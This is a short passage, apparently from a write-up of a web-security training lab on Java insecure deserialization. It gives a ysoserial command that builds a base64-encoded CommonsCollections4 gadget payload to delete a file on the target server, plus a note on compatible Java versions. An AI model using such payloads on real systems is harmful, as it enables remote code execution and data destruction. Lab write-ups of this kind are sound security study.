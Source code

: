 We can type it manually and see the Output, or just write a bash or python script to automate it.

For time saving, payloads `CommonsCollections4` working fine for this java project

```bash
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0
```

This payload has an issue with Java version 16 or 17 +, you need to use java version 8 to 15 (https://forum.portswigger.net/thread/ysoserial-stopped-working-b5a161f42f)
